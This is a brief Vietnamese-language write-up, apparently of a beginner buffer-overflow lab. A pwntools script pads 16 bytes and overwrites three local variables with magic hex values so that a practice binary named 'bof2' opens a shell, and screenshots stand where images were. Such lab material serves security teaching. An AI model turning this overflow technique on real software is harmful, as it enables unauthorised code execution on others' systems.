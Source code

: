 ![image](https://github.com/user-attachments/assets/ef49143f-58f8-4174-bbf4-f4549dc850d7)
* Cũng như Buffer_Overflow_1.md nhưng ở đây v5,v6,v7 phải giống các kí tự hex như thế chương trình sẽ tạo cho mình shell đấy là mục tiêu của mình.
* Và các kí tự HEX này cũng không phải là kí tự trên bàm phím nên chúng ta sẽ không nhập vào được
* Do đó trong trường hợp này chúng ta phải viết tool.
* Đầu tiên tìm offset của v5,v6,v7.
![image](https://github.com/user-attachments/assets/7747bd8b-bdee-4a58-9385-a7c2e45bb630)
#### PAYLOAD
<pre>
  from pwn import *
  p = process('./bof2')
  
  payload = b'A'*16
  payload += p64(0xCAFEBABE)
  payload += p64(0xDEADBEEF)
  payload += p64(0x13371337)
  p.sendafter(b'> ',payload)
  
  p.interactive()
</pre>

* Chạy nó và ta có kết quả <br>
![image](https://github.com/user-attachments/assets/c94252a6-5cb8-4418-895e-ed34f590d5d5)
